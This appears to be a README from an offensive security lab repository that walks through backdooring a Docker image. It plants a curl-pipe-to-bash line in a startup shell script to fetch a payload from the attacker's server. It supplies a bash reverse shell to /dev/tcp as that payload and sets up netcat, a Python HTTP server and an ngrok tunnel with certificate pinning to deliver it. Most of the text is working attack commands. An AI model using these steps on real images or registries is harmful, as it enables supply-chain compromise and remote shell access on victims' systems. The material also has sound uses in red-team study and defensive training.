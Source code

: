 # Backdoored shell script in container image

**Description:** This entry describes how to setup a shell script to backdoor container images

**Requirements:** docker, curl, python, ngrok

## Scenario

You have the acccess to modify docker images either through source that contains a shell script called in the Dockerfile or through an image registry. The shell script that you can modify runs on startup (a pretty common scenario)

## Building the image

First you need to build the image. This is emulating the process that will take place whenever the target image is built. Based on our scenario the victim will either be pulling in the modified source shell script or you replaced the image in the registry after updating the shell script.

The line that ends up backdooring the image will be the following:

```
curl -s http://<ip_address>:8000/payload.txt | bash
```

For added security use public key pinning (See the section [Using ngrok for your payload server address](https://github.com/sneakerhax/OffensiveDocker/blob/main/Labs/backdoored_image_sh/README.md#using-ngrok-for-your-payload-server-address)):

```
curl -Iksv --pinnedpubkey sha256//0 https://<your_site>.com
```

Use the value from output called public key hash (This is the format curl will expect in the next command)

```
curl -sk --pinnedpubkey <format>//<key_hash> https://<your_site>.com
```

This will curl the website with the public key pinned (-k is used if you have a self signed certificate)

### Build the image

* Update line 4 with the ip address of your payload server

```
docker build -t backdoor .
```

## Setting up the payload server

Next you need to setup the server that will host the file containing your payload. The payload can be anything you want to execute when the container is started. In this example we will use a reverse shell that calls back to a netcat server. I'm using python SimpleHTTPServer to host the file but this can be setup other ways as long as the file can be accessed.

### Create the payload file

```
touch payload.txt
```


### Add your payload (in this example the reverse shell)

```
nohup bash -c bash -i >& /dev/tcp/<ip_address>/8080 0>&1
```

* This payload example can be found in payload.txt
* Update the ip address and port with the values for your netcat server

### Starts a server on port 8000 by default

```
python3 -m http.server
```

### Using ngrok for your payload server address

```
ngrok http 8000 -bind-tls=true
```

Starts an ngrok listener and gives you a public address (You will need to follow the [Building the image](https://github.com/sneakerhax/OffensiveDocker/tree/main/Labs/backdoored_image_sh#building-the-image) section to grab the certificate)

## Start your Netcat handler

This step is only required if you choose to make your payload a reverse shell. This step will start a netcat server that will handle the callback from your reverse shell.

### Start the netcat listener

```
netcat -lkvp 8080
```

## Start your container

This step emulates what will occur when the backdoored image is deployed and the container starts. The script in the case will only execute once when the container is started

### Start the Docker container (execute the payload)

```
docker run -it backdoor
```

If everything goes according to plan you should get a callback similar to the this [tweet](https://twitter.com/sneakerhax/status/1416870516976099330?s=20)

## References
* none